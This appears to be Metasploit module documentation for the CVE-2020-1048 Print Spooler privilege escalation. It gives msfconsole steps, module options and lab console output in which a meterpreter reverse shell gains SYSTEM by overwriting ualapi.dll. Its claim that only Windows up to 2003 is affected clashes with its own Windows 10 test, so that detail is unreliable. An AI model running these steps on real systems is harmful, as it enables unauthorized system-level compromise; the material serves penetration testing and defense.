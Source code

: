 ## Vulnerable Application

Vulnerable versions for exploit
All unpatched windows through version 2003

### Introduction

This exploit relies on a bug where you can create a virtual printer
and print to trusted locations on the filesystem.  If a user chooses the
default overwrite, it may create a permanent backdoor.

Basically, this exploit creates a print job that writes to a trusted
location.  By selecting the location ```C:\windows\system32\ualapi.dll```
we abuse the spooler service twice.  The spooler will print to this
location when it restarts, then it will load the DLL into itself when it
restarts a second time.  The DLL will then be running as ```SYSTEM```.

When the printer is created, the target will show a pop-up saying a
printer weas created.
A larger issue here is that the Spooler service does not like to stop.
Trying `sc stop` Spooler does not stop the spooler.
Killing the pid with a trusted process will kill it, but it restarts
automatically.
Using the `pendingFileRenameOperations` registry key also does not appear
to work.

## Verification Steps

 Start ```msfconsole```
 get session on a windows target that is not patched (and <= 2003)
 ```use windows/local/cve_2020_1048_printerdemon```
 ```set session <session>```
 ```set payload <payload>```
 ```set lhost <lhost>```
 ```set lport <lport>```
 ```run```
 Verify target reboots automagically if 
 reboot target again (yest it has to reboot again
 Verify you get a session

## Options

  **EXECUTE_DELAY**
  The time between uploading and running the exploit.  Default is 3
  seconds, but high-latency networks may require more time.

  **EXPLOIT_NAME**
  The name of the when it is uploaded to the target (%RAND% by default).
  
  **EXPLOIT_DIR**
  Directory to use for file upload and linking; this should not already
  exist. (%RAND% by default)

  **OVERWRITE_DLL**
  The remote location you would like to write to.  Default is
  ```C:\windows\system32\ualapi.dll```

  **PAYLOAD_NAME**
  The filename to use for the payload binary (%RAND% by default).
  This is the name of the dll payload when uploaded to the remote host.

  **RESTART_TARGET**
  This will restart the target to force the overwrite.  YOU WILL LOSE
  YOUR SESSION unless you have a method of persistence.
  The dll will not be run until a second reboot.

  **WRITEABLE_DIR**
  The directory to use the payload binary and uploaded payload.
  (%RAND% by default).

## Scenarios

### Tested on Windows10 x64 Release 1903

  ```
msf6 payload(windows/x64/meterpreter/reverse_tcp) > to_handler
[*] Payload Handler Started as Job 2

[*] Started reverse TCP handler on 192.168.135.197:5555 
msf6 payload(windows/x64/meterpreter/reverse_tcp) > [*] Sending stage (200262 bytes) to 192.168.132.134
[*] Meterpreter session 2 opened (192.168.135.197:5555 -> 192.168.132.134:49675) at 2020-08-24 12:15:07 -0500

msf6 payload(windows/x64/meterpreter/reverse_tcp) > sessions -i -1
[*] Starting interaction with 2...

meterpreter > sysinfo
Computer        : DESKTOP-CL5L2IH
OS              : Windows 10 (10.0 Build 18362).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-CL5L2IH\msfuser
meterpreter > getsystem
[-] 2001: Operation failed: The environment is incorrect. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
meterpreter > background
[*] Backgrounding session 2...
msf6 payload(windows/x64/meterpreter/reverse_tcp) > use exploit/windows/local/cve_2020_1048_printerdemon 
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2020_1048_printerdemon) > show options

Module options (exploit/windows/local/cve_2020_1048_printerdemon):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   EXECUTE_DELAY   3                yes       The number of seconds to delay between file upload and exploit launch
   EXPLOIT_NAME                     no        The filename to use for the exploit binary (%RAND% by default).
   OVERWRITE_DLL                    no        Filename to overwrite (%WINDIR%\system32\ualapi.dll by default).
   PAYLOAD_NAME                     no        The filename for the payload to be used on the target host (%RAND%.dll by default).
   RESTART_TARGET  true             yes       Restart the target after exploit (you will lose your session until a second reboot).
   SESSION         1                yes       The session to run this module on.
   WRITABLE_DIR                     no        Path to write binaries (%TEMP% by default).


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.135.197  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x64


msf6 exploit(windows/local/cve_2020_1048_printerdemon) > set verbose true
verbose => true
msf6 exploit(windows/local/cve_2020_1048_printerdemon) > set disablepayloadhandler false
disablepayloadhandler => false
msf6 exploit(windows/local/cve_2020_1048_printerdemon) > set wfsdelay 600
wfsdelay => 600
msf6 exploit(windows/local/cve_2020_1048_printerdemon) > run

msf6 exploit(windows/local/cve_2020_1048_printerdemon) > set session 2
session => 2
msf6 exploit(windows/local/cve_2020_1048_printerdemon) > run

[*] Started reverse TCP handler on 192.168.135.197:4444 
[*] Checking Target
[*] Attempting to PrivEsc on DESKTOP-CL5L2IH via session ID: 2
[*] Build Number = 18362
[*] Uploading Payload
[*] Payload (5120 bytes) uploaded on DESKTOP-CL5L2IH to C:\Users\msfuser\AppData\Local\Temp\UCPNtlof
[!] This exploit requires manual cleanup of the payload C:\Users\msfuser\AppData\Local\Temp\UCPNtlof
[*] Sleeping for 3 seconds before launching exploit
[*] Uploading exploit to DESKTOP-CL5L2IH as C:\Users\msfuser\AppData\Local\Temp\JkrbEDShseh.exe
[*] Exploit uploaded on DESKTOP-CL5L2IH to C:\Users\msfuser\AppData\Local\Temp\JkrbEDShseh.exe
[*] Running Exploit
[*] Exploit output:
Printer created successfully
[*] Rebooting DESKTOP-CL5L2IH
[*] 192.168.132.134 - Meterpreter session 2 closed.  Reason: Died
```

After the auto-reboot, reboot again.
The first reboot performs the overwrite; the second loads the dll.

```
[*] Sending stage (200262 bytes) to 192.168.132.134
[*] Meterpreter session 3 opened (192.168.135.197:4444 -> 192.168.132.134:49669) at 2020-08-24 12:19:49 -0500

meterpreter > sysinfo
Computer        : DESKTOP-CL5L2IH
OS              : Windows 10 (10.0 Build 18362).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 

```
